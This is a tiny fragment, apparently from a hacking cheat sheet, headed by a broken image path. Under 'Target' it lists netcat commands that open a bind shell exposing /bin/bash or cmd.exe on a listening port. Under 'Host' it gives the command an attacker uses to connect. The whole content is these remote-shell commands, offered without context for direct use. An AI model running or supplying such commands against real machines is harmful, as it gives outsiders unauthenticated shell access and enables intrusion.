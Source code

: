 Target:
- `nc -ldp <PORT> -e /bin/bash`
- `nc -ldp <PORT> -e cmd.exe`
Host:
- `nc -vn <IP> <PORT>`


